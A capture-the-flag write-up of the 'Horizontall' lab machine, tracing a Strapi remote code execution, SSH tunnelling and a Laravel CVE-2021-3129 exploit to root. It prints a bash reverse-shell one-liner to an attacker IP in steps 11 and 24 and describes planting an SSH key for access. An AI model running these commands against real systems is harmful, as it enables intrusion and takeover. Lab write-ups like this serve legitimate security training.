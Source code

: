 1. Run Nmap to scan any open ports and services from the web.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e168f3ae-fdca-40c6-a64c-4a4cf64ed6c0)

2. Open the ip address in the browser and it directs to horizontall.htb. I add it to /etc/hosts/ so I can open it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fa4cf0d4-22af-4da5-8d5b-e704b4493a39)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/777e5607-7645-40ec-af91-af3bcfbdf6d0)

3. The feature isn't showing any interesting things. Next things is check the source code and I found a unique js file.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e0940e2b-5f55-446b-9e1f-fd33608cff5e)

Content: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4200360b-ca33-4ddd-a525-af725b5feb74)

4. We can beautify with this [tool](https://beautifier.io/) and found a new api endpoint.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b6547f97-6b75-4ed9-b248-5c5649ded97c)

5. Add the new endpoint to /etc/hosts/ to open it.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e140aac3-a94e-4c08-aedf-07b1878bbc6c)

Website: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aad03eb2-afb9-4da1-b1c1-38927f3db72c)

6. Use feroxbuster to find any interesting directories. There I interested about admin directory.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7705d94a-dcdc-435d-b000-f9e71f2edd48)

7. When I opened, it shows strapi login page.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5a0c5c8b-05f8-418d-aa02-a5d0741415d0)

8. Check the version in **/admin/init** and the version is 3.0.0-beta.17.4.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ef79f371-d2cb-460d-a1be-e0135cd36629)

9. Googling for any strapi 3 vulnerability and found in this [link](https://www.exploit-db.com/exploits/50239)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/51d2fddb-24f3-4f1d-9e60-4ecb33f0292c)

10. I use the payload from that link and get the shell, but it returns error.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ffaba9bc-9330-4947-be15-c2d62cfc5b63)

11. Okay, I try to execute reverse shell with this [tool](https://www.revshells.com/)

Payload:<br>
bash -c 'bash -i >& /dev/tcp/10.10.14.8/777 0>&1'

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1abb246c-695f-4324-b53a-1fd335f7bc29)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6895636-9c7c-4ab3-97f0-fb5a8f163d04)

12. It works! the flag can be found in **/home/developer/user.txt**.<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ca080e46-3b76-45a0-96cd-91efe3cfd8af)

13. For the root, my first guess is admin account. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d5dfe2a1-9c92-4927-bdad-1af36492b26a)

14. I see this page when logged in and nothing interesting in there.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/26a94265-8664-4cd8-884d-0ff53dcf36bf)

15. Let's check the network that are running inside the web server using netstat.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfcfc9e0-cbb4-4374-b3d5-c56dc6bf222b)

16. Using curl to see what respons will return and I discover that the web using laravel for their backend.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/acbe2dc6-d6b2-47b1-88f7-3d1e8ed00b9e)

17. To access the localhost, we need to do ssh tunneling. First we can create a new key named strapi.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d1579a62-ac52-42bf-b413-1cb73d7e38d8)

18. Using echo to insert the key to target terminal where it stored in **~/.ssh/authorized_keys**.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a4c6572e-1d54-4033-a86b-d97ca820ff90)

19. Now, I can do ssh tunneling with strapi key and for the target I want to take localhost:8000 so I add `8000:localhost:8000` in my command.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bc26e6f9-bade-4006-918c-6010d8cb20d3)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/73406f49-fdfa-46c5-8681-140ea29aa6eb)

20. I use feroxbuster again for scanning directories localhost:8000 and found profiles directory.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d82a0488-eda1-4879-aec6-06346361cd78)

21. When I opened, it only shows error.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/701ea246-aff2-4af8-9734-b51b0a6458c1)

22. So I searching laravel 7.4.18 vulnerabilities and found this [link](https://www.exploit-db.com/exploits/49424) (most relevant).
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfc8880f-6458-47c3-a890-d93e0c7157ce)

23. Searching again for the payloads and found this amazing [payload](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py).

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 id`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4b9b581b-3984-499a-994c-5469a70d9f8c)

24. It works! Now I change the id command with previous reverse shell payload.

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 'bash -c "bash -i >& /dev/tcp/10.10.14.8/777 0>&1"'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1e29bf63-4555-494b-8b94-24a7b2563819)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/386a20da-85df-4c58-910c-52a520343750)

25. The root flag is in **/root/root.txt**. <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e4f06518-68ce-405f-ba5f-94b54c7c8b57)





